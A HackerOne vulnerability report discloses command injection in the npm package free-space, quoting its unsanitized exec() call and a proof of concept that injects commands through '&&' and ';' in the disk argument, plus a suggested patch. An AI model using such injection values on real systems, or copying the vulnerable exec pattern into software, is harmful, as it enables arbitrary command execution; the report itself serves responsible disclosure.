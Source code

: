 # [@knutkirkhorn/free-space] - Command Injection through Lack of Sanitization

## Report Details
- **Report ID**: 950192
- **URL**: https://hackerone.com/reports/950192
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-03T13:23:37.958Z
- **Disclosed**: 2020-09-18T12:35:51.099Z

## Reporter
- **Username**: ansuj7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report ```Command Injection``` in the ```free-space``` module.
It allows ```arbitrary shell command execution on Unix-based systems```

# Module

**module name:** ```free-space```
**version:** ```1.2.0```
**npm page:** `https://www.npmjs.com/package/free-space`

## Module Description

 Get the amount of free space for a drive

## Module Stats

24 Weekly Downloads

# Vulnerability

## Vulnerability Description

The issue is triggered due to the lack of sanitization of the input parameter of the library's exported anonymous function. 
The exported function, when given a parameter checks what platform the code is being run on and sends that parameter to a function call in either ```lib/unix.js``` or ```lib/windows/js```.
The vulnerability exists in ```lib/unix.js``` which directly uses the user-input parameter: ```disk``` in the template string that ultimately gets exec-ed.

Below is the library's ```index.js``:

```javascript
'use strict';
const systemDisk = require('system-disk');
const windows = require('./lib/windows.js');
const unix = require('./lib/unix.js');

module.exports = disk => {
    if (disk === undefined) {
        return new Promise(resolve => {
            systemDisk().then(newDisk => {
                disk = newDisk;

                if (process.platform === 'win32') {
                    resolve(windows(disk));
                } else {
                    resolve(unix(disk));
                }
            });
        });
    } else {                   // this code executes if a parameter is passed to this function
        if (typeof disk !== 'string') {
            throw new TypeError('Invalid input');
        }

        if (process.platform === 'win32') {    // calls lib/windows.js with the input parameter
            return windows(disk);
        }

        return unix(disk);    // calls lib/unix.js with the input parameter
    }
};
```

Below is the bug in ```lib/unix.js```:
```javascript
'use strict';
const {exec} = require('child_process');

module.exports = disk => {
    return new Promise((resolve, reject) => {
        exec(`df -k | grep ^${disk} | awk '{print $4}'`, (err, stdout, stderr) => { // 'disk' is the parameter passed here from the library's exported call
            if (stderr) {
                reject(new Error('Something wrong happened'));
                return;
            }

            if (stdout.length === 0 || err) {
                reject(new Error('Could not find disk: ' + disk));
            }

            resolve(parseInt(stdout, 10) * 1024);
        });
    });
};
```
Due to the parameter directly being passed to ```exec```, a ```;```or ```&&``` followed by commands will cause each command after the delimiting character to be executed.


## Steps To Reproduce:

Create testing directory: ```mkdir free-space-poc```
Install package: ```npm install (@)knutkirkhorn/free-space```

Create the following script  - ```test.js``` in the testing directory:
```javascript
const freeSpace = require('@knutkirkhorn/free-space');

freeSpace(' && echo AMPERSAND_EXEC > ./CODEEXEC').then(bytes => {
    console.log('AMPERSAND: Free space: ' + bytes + '\n');
});

freeSpace(' ; echo SEMICOLON_EXEC >> ./CODEEXEC').then(bytes => {
    console.log('SEMICOLON: Free space: ' + bytes + '\n');
});
``` 
Execute with ```nodejs test.js```

List the directory with ```ls```
You will see the file ```CODEEXEC``` has been created in the current directory with output from injected commands. ```cat CODEEXEC```
{F934570}

## Patch

Sanitize the ```disk``` parameter before passing it into ```exec``` in ```lib/unix.js``` - Cut out everything after a ```;  and  && ``` and ensure that the disk does exist before calling ```exec```.

## Supporting Material/References:

- Operating System Version: Ubuntu 18.04.4 LTS
- NodeJS Version: v8.10.0
- NPM Version: 6.14.7

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N 

Thank you for your time.

## Impact

Command Injection can lead to information gathering, system enumeration and further execution of scripts/binaries.

## Attachments
- free-space-poc.PNG
